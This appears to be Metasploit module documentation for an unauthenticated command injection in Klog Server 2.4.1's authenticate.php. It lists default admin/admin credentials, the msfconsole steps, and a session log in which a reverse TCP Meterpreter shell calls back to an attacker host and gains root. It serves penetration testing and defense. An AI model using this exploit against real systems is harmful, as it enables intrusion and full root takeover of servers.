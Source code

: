 ## Vulnerable Application

This module exploits an unauthenticated command injection vulnerability
in [Klog Server](https://www.klogserver.com/) versions 2.4.1 and prior.
    
The `authenticate.php` file uses the `user` HTTP POST parameter in a call
to the `shell_exec()` PHP function without appropriate input validation,
allowing arbitrary command execution as the apache user.
    
The sudo configuration permits the apache user to execute any command
as root without providing a password, resulting in privileged command
execution as root.

This module has been successfully tested on Klog Server version 2.4.1
virtual appliance.

Download:

* https://www.klogserver.com/download/ova/2.4.1/klogserver.ova

## Verification Steps

The virtual appliance makes use of a default IP address `10.10.56.51`.

To change the network settings:

1. Login as `admin` - the default console and SSH credentials are `admin` / `admin`.
1. Select menu option `Ağ ayarları` (1) to view network settings

```
=== ANA MENÜ ===========================================================

  1. Ağ ayarları
  2. Sorun giderme
  3. Bakım
  4. Cıkış

Çalıştırmak istediğiniz komutun sayısını giriniz: 1
```

1. Select menu option `Ağ ayarlarını güncelle` (2) to change the current network configuration

```
--- AĞ AYARLARI --------------------------------------------------------

  1. Ağ ayarlarını göster
  2. Ağ ayarlarını güncelle
  3. Ana menüye dön

Çalıştırmak istediğiniz komutun sayısını giriniz: 2
```

1. Enter the desired IP address, netmask, and gateway

```
Yeni IP adresi giriniz. Menüye dönmek için Enter'a basınız:
> 10.1.1.123

  IP adres: 10.1.1.123 

Yeni alt ag maskesini giriniz. Menüye dönmek için Enter'a basınız:
> 255.255.255.0

  IP adres: 10.1.1.123 
  Alt ağ maskesi: 255.255.255.0 

Yeni ağ geçidini giriniz. Menüye dönmek için Enter'a basınız:
> 10.1.1.1

  IP adres: 10.1.1.123 
  Alt ağ maskesi: 255.255.255.0 
  Ağ geçidi: 10.1.1.1 

Ayarlar uygulanıyor...
```

Metasploit:

1. Start msfconsole
1. Do: `use exploit/linux/http/klog_server_authenticate_user_unauth_command_injection`
1. Do: `set RHOSTS [IP]`
1. Do: `set TARGET [TARGET]`
1. Do: `set PAYLOAD [PAYLOAD]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`

## Options

### TARGETURI

The base path of the Klog Server (Default: `/`)

### USE_SUDO

Execute payload as root using `sudo` (Default: `true`)

## Scenarios

### Klog Server version 2.4.1

```
msf6 > use exploit/linux/http/klog_server_authenticate_user_unauth_command_injection 
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/klog_server_authenticate_user_unauth_command_injection) > set rhosts 10.1.1.123
rhosts => 10.1.1.123
msf6 exploit(linux/http/klog_server_authenticate_user_unauth_command_injection) > check
[+] 10.1.1.123:443 - The target is vulnerable. Response received after 9 seconds.
msf6 exploit(linux/http/klog_server_authenticate_user_unauth_command_injection) > set target 0
target => 0
msf6 exploit(linux/http/klog_server_authenticate_user_unauth_command_injection) > set lhost 10.1.1.105 
lhost => 10.1.1.105
msf6 exploit(linux/http/klog_server_authenticate_user_unauth_command_injection) > run

[*] Started reverse TCP handler on 10.1.1.105:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Response received after 11 seconds.
[*] Sending stage (980808 bytes) to 10.1.1.123
[*] Meterpreter session 1 opened (10.1.1.105:4444 -> 10.1.1.123:35824) at 2021-02-11 22:59:15 -0500
[*] Command Stager progress - 100.00% done (773/773 bytes)

meterpreter > getuid
Server username: root @ klogserver.klogserver.com (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : klogserver.klogserver.com
OS           : CentOS 7.3.1611 (Linux 3.10.0-514.el7.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```
